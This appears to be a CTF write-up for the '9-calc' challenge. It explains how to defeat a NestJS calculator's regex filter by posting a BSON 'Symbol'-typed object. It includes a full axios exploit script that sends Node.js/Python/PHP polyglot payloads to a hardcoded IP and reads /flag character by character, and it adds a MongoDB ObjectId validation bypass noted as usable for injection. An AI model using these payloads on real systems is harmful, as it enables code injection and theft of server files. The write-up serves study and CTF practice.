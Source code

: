 9-calc
=====================

calcalcalc again and again...

9-calc-eposide.3

## Part 1

Same to v1 and v2.

## Part 2

The second task is to bypass RegExp ``/^[0-9a-z\[\]\+\-\*\/ \t]+$/``.

Nestjs is a Nodejs Web Framework which is very similar to Spring, and it's written by TypeScript. However, it's **NOT** Spring. TypeScript is a strongly-typed language, but it's designed for transcompiles to JavaScript so all type definitions will be removed in runtime. We can just ignore ``expression: string`` type hinting and pass an object to ``expression``. This time, ``object.toString() === '[object Object]'``.

But we have no way to let ``object.toString()`` become a useful runnable code ─ if frontend and backends communicate by JSON, it's true. I believe that everyone has used MongoDB. Nodejs can pass a JavaScript function to MongoDB, which is not defined in the JSON standard. So they introduce BSON as their data interchange format. This challenge also used BSON. Luckily, we can simulate our object to a BSON object in JavaScript.

Let's read ``mongodb/js-bson``'s serializer, we can know it detects the object's type by ``Object[_bsontype]`` instead of ``instanceof``.

https://github.com/mongodb/js-bson/blob/master/lib/parser/serializer.js#L756

```javascript
      } else if (value['_bsontype'] === 'Binary') {
        index = serializeBinary(buffer, key, value, index, true);
      } else if (value['_bsontype'] === 'Symbol') {
        index = serializeSymbol(buffer, key, value, index, true);
      } else if (value['_bsontype'] === 'DBRef') {
```

After searching, I found that ``Symbol`` is the best type to emulate an object as a string. I checked most of the BSON deserializers and ``Symbol.toString()`` always returns the value of the symbol.

So let's build a Symbol like this:

```json
{"expression":{"value":"1+1","_bsontype":"Symbol"}, "isVip": true}
```

## Part 3

Build 3 polyglots in 3 languages to get flag.

## Exp

```javascript
const axios = require('axios')
const url = 'http://45.77.242.16/calculate'
const symbols = '0123456789abcdefghijklmnopqrstuvwxyz{}_'.split('')

const payloads = [
	// Nodejs
	`1 + 0//5 or '''\n//?>\nrequire('fs').readFileSync('/flag','utf-8')[{index}] == '{symbol}' ? 1 : 2;/*<?php\nfunction open(){echo MongoDB\\BSON\\fromPHP(['ret' => '1']);exit;}?>*///'''`,

	// Python
	`(open('/flag').read()[{index}] == '{symbol}') + (str(1//5) == 0) or 2 or ''' #\n))//?>\nfunction open(){return {read:()=>'{flag}'}}function str(){return 0}/*<?php\nfunction open(){echo MongoDB\\BSON\\fromPHP(['ret' => '1']);exit;}?>*///'''`,

	// PHP
	`len('1') + 0//5 or '''\n//?>\n1;function len(){return 1}/*<?php\nfunction len($a){echo MongoDB\\BSON\\fromPHP(['ret' => file_get_contents('/flag')[{index}] == '{symbol}' ? "1" : "2"]);exit;}?>*///'''`,

]
const rets = []

const checkAnswer = (value) => axios.post(url, {
	expression: {
		value,
		_bsontype: "Symbol"
	},
	isVip: true
}).then(p => p.data.ret === '1').catch(e => {})

const fn = async () => {

	for (let j = 0; j < payloads.length; j++) {
		const payload = payloads[j]
		let flag = ''
		let index = 0
		while (true) {
			for (let i = 0; i < symbols.length; i++) {
				const ret = await checkAnswer(payload.replace(/\{flag\}/g, flag + symbols[i]).replace(/\{symbol\}/g, symbols[i]).replace(/\{index\}/g, index))
				if (ret) {
					flag += symbols[i]
					console.log(symbols[i])
					i = 0
					index++
				}
			}
			break
		}
		rets.push(flag)
		console.log(rets)
	}

}

fn().then(p => {
	console.log(rets.join(''))
})

```

## Others

In this challenge, the BSON part was inspired by the ``996Game`` of ``*CTF2019``. The code of ``996game`` is:

```javascript
GameServer.loadPlayer = function(socket,id){
  GameServer.server.db.collection('players').findOne({_id: new ObjectId(id)},function(err,doc){
```

I built ``{ toHexString: 'aaa', length: 0, id: {length: 12} }`` to bypass the validation of ``ObjectId`` because MongoDB Driver used old version ``js-bson``. This maybe useful in MongoDB injection.

